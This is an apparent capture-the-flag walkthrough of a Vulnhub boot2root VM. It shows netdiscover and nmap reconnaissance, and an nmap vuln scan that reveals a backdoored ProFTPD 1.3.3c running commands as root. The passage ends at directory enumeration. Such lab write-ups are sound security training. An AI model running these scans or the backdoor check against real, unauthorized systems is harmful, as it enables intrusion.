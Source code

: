 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | Fpt |
|End Goal: |	Get root |
|Tool: |	Wpscan, nikto, msfconsole |
|Tag:	| |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - FTP vuln scan
- Exploit
## II. Walkthrough
### Scanning
- Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                                     
                                                                                                                                   
 17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                                 
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)
Nothing here. Scan Web with nikto
### Enumeration
#### FTP vuln scan
Use Nmap vuln scan to find scan ftp service 
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4 --script=vuln -p 21 192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:35 EDT
Nmap scan report for 192.168.44.130
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
From the result, there are a FTP vulnerability.
#### Dictionary Emunmeration
Use gobuster to find hidden dicrectory in website
